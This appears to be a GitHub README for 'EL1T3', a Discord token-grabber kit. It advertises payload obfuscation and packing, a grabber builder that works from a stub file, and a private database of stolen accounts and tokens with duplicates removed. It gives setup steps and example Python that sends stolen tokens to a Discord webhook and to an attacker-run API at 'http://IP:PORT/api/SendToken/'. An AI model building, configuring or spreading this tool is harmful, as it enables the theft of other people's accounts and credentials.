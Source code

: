 <h1 align="center">THE EL1T3 PROJECT</h1>

<p align="center">
  <b>Some link:</b><br>
  <a href="https://discord.gg/4cajZdYpgS">Discord</a> |
  <a href="https://www.youtube.com/channel/UC09GPm24_rdeOXa5KOmhDnw">YouTube</a> |
  <a href="https://github.com/Its-Vichy">Github</a> |
  <a href="https://pypi.org/project/EL1T3">PyPI Package</a><br>
  <br>
  <img src="https://media.discordapp.net/attachments/813683001496961065/813783642265747516/6869f4cf0c2f7349903668b562c4e403.gif">
</p>
<h1 align="center">FEATURE</h1>

- Dynamic url
- Private Database
- Remove Duplicate account / token
- Obfuscate and pack payload
- Easy to use

<h1 align="center">HOW TO INSTALL</h1>

- **Run** ``./Setup.py`` **file to install modules**
<img align="center" src="https://media.discordapp.net/attachments/823351707110473789/823361030120931378/unknown.png">

#

<h1 align="center">HOW TO SETUP</h1>

```
+ Open port on host machine
+ Config port in EL1T3_API.py file
```

## Exemple Code:
```py
from EL1T3 import EL1T3

# Direct Url
EL1T3(dynamic_url= False, webhook_url= "https://discord.com/api/webhooks/81619050/M-BLMxSy5e23way", api_url= 'http://IP:PORT/api/SendToken/?Token=TOKEN-HERE')

# RAW Url
EL1T3(dynamic_url= True, webhook_url= "https://pastebin.com/raw/bNcRrQiK", api_url= 'http://IP:PORT/api/SendToken/?Token=TOKEN-HERE')
```

#

<h1 align="center">BUILD GRABBER</h1>

- **You can edit the grabber code on ``stub.txt`` file**
- **Dynamic api url in builder soon**

<img align="center" src="https://media.discordapp.net/attachments/820460842637459460/823377508602085386/unknown.png">
<img align="center" src="https://media.discordapp.net/attachments/820460842637459460/823377574079234098/unknown.png">
<img align="center" src="https://media.discordapp.net/attachments/820460842637459460/823378287535194212/unknown.png">

#

<h1 align="center">DATABASE SCREENSHOT</h1>
<img align="center" src="https://media.discordapp.net/attachments/823351707110473789/823356873637494794/unknown.png">